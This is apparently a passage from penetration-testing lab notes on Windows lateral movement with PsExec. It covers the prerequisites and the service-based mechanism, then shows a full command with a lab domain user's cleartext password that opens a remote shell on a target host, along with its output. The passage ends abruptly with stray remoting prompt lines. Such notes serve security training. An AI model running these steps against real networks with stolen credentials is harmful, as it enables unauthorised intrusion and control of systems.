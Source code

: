 ### PsExec Requirements and Architecture

**Prerequisites for PsExec Lateral Movement:**
1. **Administrative Privileges:** User must be part of Administrators local group on target
2. **ADMIN$ Share Access:** Administrative share must be available
3. **File and Printer Sharing:** Must be enabled (default on Windows Server systems)

**PsExec Execution Process:**
1. **Service Binary Deployment:** Writes `psexesvc.exe` into `C:\Windows` directory
2. **Service Creation:** Creates and spawns a service on the remote host
3. **Process Execution:** Runs requested program/command as child process of `psexesvc.exe`
4. **Interactive Console:** Provides direct interactive access to remote system

### Traditional PsExec Implementation

**SysInternals PsExec64.exe Usage:**
```cmd
# Interactive session with domain credentials
.\PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
```

**Command Parameters:**
- **-i:** Interactive session (allocates desktop for GUI applications)
- **\\FILES04:** Target hostname with UNC path format
- **-u corp\jen:** Domain\username format for authentication
- **-p Nexus123!:** Password for specified user account
- **cmd:** Command/process to execute remotely

**Sample PsExec Execution:**
```cmd
PS C:\Tools\SysinternalsSuite> .\PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
FILES04

C:\Windows\system32>whoami
corp\jen
```

**Key Success Indicators:**
- **Version Information:** PsExec banner confirms successful connection
- **Interactive Shell:** Direct command prompt on target system
- **Identity Verification:** `whoami` confirms execution context
- **System Verification:** `hostname` confirms target system access

### Advanced PsExec Options


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname